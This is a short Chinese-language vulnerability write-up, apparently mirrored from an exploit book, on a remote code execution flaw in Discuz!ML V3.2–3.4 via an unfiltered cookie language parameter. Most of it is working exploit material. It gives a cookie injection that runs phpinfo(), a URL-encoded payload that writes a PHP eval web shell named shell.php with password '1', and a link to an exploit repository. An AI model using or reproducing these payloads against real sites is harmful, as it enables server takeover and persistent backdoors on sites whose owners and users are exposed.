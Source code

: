 # discuz！ML 3.x 代码执行漏洞

> 原文：[http://book.iwonder.run/0day/Discuz/1.html](http://book.iwonder.run/0day/Discuz/1.html)

## 一、漏洞简介

漏洞类型：代码执行漏洞
漏洞原因：Discuz!ML 系统对 cookie 中的 l 接收的 language 参数内容未过滤，导致字符串拼接，从而执行 php 代码。

## 二、影响范围

*   Discuz!ML V3.2-3.4

## 三、复现过程

cookie 字段中会出现 xxxx_xxxx_language 字段，根本原因就是这个字段存在注入，导致的 RCE
抓包找到 cookie 的 language 的值修改为

```
xxxx_xxxx_language=sc'.phpinfo().' 
```

getshell

```
%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27 
```

实际为：

```
'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).' 
```

即可在路径下生成 shell.php，连接密码为 1

## <font>[https://github.com/ianxtianxt/discuz-ml-rce](https://github.com/ianxtianxt/discuz-ml-rce)</font>

